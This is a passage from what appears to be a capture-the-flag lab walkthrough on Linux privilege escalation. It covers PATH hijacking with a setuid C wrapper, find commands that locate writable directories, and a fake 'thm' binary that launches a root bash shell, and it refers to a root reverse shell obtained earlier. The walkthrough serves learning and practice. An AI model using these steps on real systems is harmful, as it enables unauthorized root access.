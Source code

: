 ```bash
$chmod +x backup.sh
```

Now we get the reverse shell to the system and the user is root.

## Privilege Escalation using PATH

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file)

First explore these

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulmerability?

We will try to use this code below

```c
#include<unistd.h>
void main() 
{
    setuid(0);
    setgid(0);
    system("thm");
}
```

So let us first find the writable directories for us we can use the command below

```bash
$find / -writable 2>/dev/null
```

This will output a lot of lines which is very hard to read and get a hang of it. So, we need to cut it and then sort with unique

```bash
$find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
```

We have seen that we have a home dir to write to let us grep it.

```bash
$find / -writable 2>/dev/null | grep home | sort -u
```

We have write access to an unusual home directory lets switch to that one. And we can see that we have 2 files there one is test and the other one is thm.py from thm.py we can see that it calls thm binary as said in the walkthrough so we need to create a bin with name thm we can simply do that by

```bash
$echo "/bin/bash" > thm
$chmod +x thm
```
